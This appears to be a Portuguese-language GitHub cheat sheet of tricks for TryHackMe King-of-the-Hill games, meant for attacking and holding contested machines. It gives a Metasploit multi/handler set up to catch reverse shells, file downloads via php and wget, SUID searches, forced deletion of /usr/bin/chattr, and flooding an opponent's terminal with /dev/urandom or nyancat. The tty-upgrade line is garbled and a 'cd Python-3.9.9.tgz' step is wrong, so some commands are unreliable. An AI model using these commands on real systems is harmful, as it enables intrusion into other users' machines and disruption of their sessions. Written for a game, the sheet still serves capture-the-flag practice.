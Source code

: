                                                    <Tricks-For-All-Things>

# se você precisa (com certeza vai) instalar o "chattr" em uma máquina aqui vai um presente:

```
https://github.com/Machinh/Koth-THM/blob/main/Files/Chattr/Best-Chattr.md
```

# se você deseja criar um servidor web simples em python (geralmente para baixar ou instalar algo de máquina para máquina):
```
python3 -m http.server <port>
```

# Se você precisar ver protas abertas:

```
netstat -anpt
```

# Baixar files usando php:

```
php -r "copy('https://endereco.com/arquivo.txt','nome_do_arquivo_na_maquina.txt');"

```

```
# receive connections by metasploit:
```
```
use exploit/multi/handler
set PAYLOAD generic/shell_reverse_tcp
set LHOST 127.0.0.1
set LPORT 8080
set ExitOnSession false
exploit -j
```

# Se você precisar instalar python sem root:
```
wget https://www.python.org/ftp/python/3.9.9/Python-3.9.9.tgz
```
```
tar -zxvf Python-3.9.9.tgz
cd Python-3.9.9.tgz
mkdir ~/.localpython
./configure --prefix=/home/$(whoami)/.localpython
make;make install
```

# Uma full tty shell:

```
python3 -c"pkill -9 -t pts/ 'import pty;pty.spawn("/bin/bash")'

"ctrl + z"

stty raw -echo && fg

aperte "enter" novamente

export TERM=xterm-256color
```

# Procurar Suids:
```
find / -perm -u=s -ls 2>/dev/null > /tmp/.find &
```

# Deletar chattr:
```
rm -rf /usr/bin/chattr
  ```
# procurar Flags:
```
find / -name flags

# Nyan-cat:
git clone https://github.com/klange/nyancat
cd nyancat/src
make
## Sending Nyancat to machine:
python -m SimpleHTTPServer 80 # on your local machine

wget http://yourip/nyancat # on the KOTH machine

chmod +x nyancat

./nyancat > /dev/pts/#  < here where is the # you will place the enemy PTS
```
# Breaking pts by sending spam from urandom
```
cat /dev/urandom > /dev/pts/#
```
# Changing the ssh port:
```
nano /etc/ssh/sshd_config

Include /etc/ssh/sshd_config.d/*.conf

#Port 22
#AddressFamily any
#ListenAddress 0.0.0.0
#ListenAddress ::

#HostKey /etc/ssh/ssh_host_rsa_key
#HostKey /etc/ssh/ssh_host_ecdsa_key
#HostKey /etc/ssh/ssh_host_ed25519_key
by default the SSH port is port 22, but you can change this port for example
Include /etc/ssh/sshd_config.d/*.conf

Port 55999
#AddressFamily any
#ListenAddress 0.0.0.0
#ListenAddress ::

#HostKey /etc/ssh/ssh_host_rsa_key
#HostKey /etc/ssh/ssh_host_ecdsa_key
#HostKey /etc/ssh/ssh_host_ed25519_key
service sshd restart
```
//and ready after restarting the SSH service the SSH port will be at 55999
